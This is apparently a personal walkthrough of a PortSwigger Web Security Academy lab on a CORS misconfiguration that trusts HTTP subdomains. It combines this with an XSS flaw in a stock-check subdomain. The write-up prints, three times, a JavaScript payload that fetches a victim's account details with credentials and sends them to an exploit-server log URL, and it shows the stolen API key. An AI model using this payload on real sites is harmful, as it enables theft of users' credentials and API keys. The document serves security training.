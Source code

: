 Title: CORS vulnerability with trusted insecure protocols
Level: Practitioner
Desc:  This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.
To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.
You can log in to your own account using the following credentials: wiener:peter 

# Walkthrough: 
We have reflected Origin in Acces-Control-Allow-Origin for http://subdomain.lab-id
<img width="1245" height="345" alt="image" src="https://github.com/user-attachments/assets/b549a04a-fc2a-4ef3-852a-80bcd3b3af17" />

The "check stock" functionallity in product page request subdomain: stock.lab-id
<img width="1120" height="325" alt="image" src="https://github.com/user-attachments/assets/2d19e621-5d22-4cd6-92ed-53fbb9d7c9fc" />

In productId parameter in request to subdomain we have XSS vulnerability:
<img width="609" height="311" alt="image" src="https://github.com/user-attachments/assets/0d4813d5-f607-445b-a3bb-1829f1d04334" />

In exploit server run: 
```
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```

It is code: 
```
<script>
    document.location="http://stock.YOUR-LAB-ID.web-security-academy.net/?productId=4<script>
 var req = new XMLHttpRequest();
 req.onload = reqListener;
 req.open('get','https://YOUR-LAB-ID.web-security-academy.net/accountDetails',true);
 req.withCredentials = true;
 req.send();
 function reqListener() {
  location='https://YOUR-EXPLOIT-SERVER-ID.exploit-server.net/log?key='%2bthis.responseText;
 };
 %3c/script>&storeId=1"
</script>
```

```
<script>
    document.location="http://stock.0a8a003403b6eb7280cbb2d600980063.web-security-academy.net/?productId=4<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0a8a003403b6eb7280cbb2d600980063.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0acb0010039eebaf800ab131014f00cb.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>
```
We can see the API key in URL:
<img width="1496" height="210" alt="image" src="https://github.com/user-attachments/assets/a682a57e-28b4-4ab5-b941-895d7fd4e01b" />


nwYf8SYzizZ71zlXB9CCtin0hN5hZ7om

For victim: 
<img width="1471" height="170" alt="image" src="https://github.com/user-attachments/assets/4371384f-d73b-4da8-9e15-0f848136df06" />


# Bonus:
1) in my opinion now Lab works like no matter if we have exploit server to read response, because we reed response from the url which was populated in the victim browser, but the request is not sended. I'm not sure about that...
<img width="1258" height="325" alt="image" src="https://github.com/user-attachments/assets/54422a6e-0d60-4f7b-a979-55715c963be0" />
I still can see my api token after viewing exploit.
<img width="1216" height="235" alt="image" src="https://github.com/user-attachments/assets/fbeba208-c8e9-489a-b53e-068166755ac5" />
As I thought.

2) I also changed the protocol from http to https in request to subdomain and it changed nothing.
<img width="1257" height="325" alt="image" src="https://github.com/user-attachments/assets/fe5982bf-d46b-432e-96ef-663e76dbbb28" />
In case of a victim it was crutial to send request with http instead of https, I don't know why.
<img width="1471" height="170" alt="image" src="https://github.com/user-attachments/assets/f2de2b3a-7700-4b98-8a4c-359160652d5b" />

 




